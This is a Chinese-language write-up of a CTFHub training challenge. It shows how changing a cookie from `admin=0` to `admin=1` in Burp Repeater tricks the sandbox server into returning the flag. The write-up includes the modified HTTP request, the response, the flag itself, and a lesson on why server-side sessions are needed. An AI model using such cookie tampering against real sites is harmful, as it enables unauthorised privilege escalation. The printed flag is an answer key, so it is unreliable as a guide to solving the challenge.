

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-b5ee1b07bc406d1e.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{882a7b77798ad9afbef073ca} |

## 解题过程

打开靶场页面，提示 "Only admin can get flag"，我用 DevTools 看了一下请求，发现请求头里带着 `Cookie: admin=0`——权限判断居然就放在客户端 Cookie 里。于是我在 Kali 里用 Burp 抓下请求发到 Repeater，把请求头中的 Cookie 改成 `admin=1`，其余不变，点击 Send 重放。响应立刻从普通页面变成 200 OK，响应体里直接给出了 flag。整个过程只是改了一个字符，服务器就把我当成了 admin。

## 关键请求/响应

```http
修改后的请求（Burp Repeater 发送）：

GET / HTTP/1.1
Host: challenge-b5ee1b07bc406d1e.sandbox.ctfhub.com:10800
Cookie: admin=1

服务器响应：

HTTP/1.1 200 OK
Content-Type: text/plain; charset=UTF-8
Content-Length: 32

ctfhub{882a7b77798ad9afbef073ca}
```

## 原理与复盘

Cookie 位于 HTTP 请求头部分：客户端每次请求都会带上它，服务器靠它“认人”。但 Cookie 完全由客户端保存和发送，用户可以随意查看和篡改，所以本题服务端直接信任 `admin` 这个值就出了问题。正确的做法是把权限判断放在服务端 Session 里，Cookie 只存一个不可预测的 session id。这道题让我记住了：凡是放在客户端的数据都不能直接当作权限依据。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。

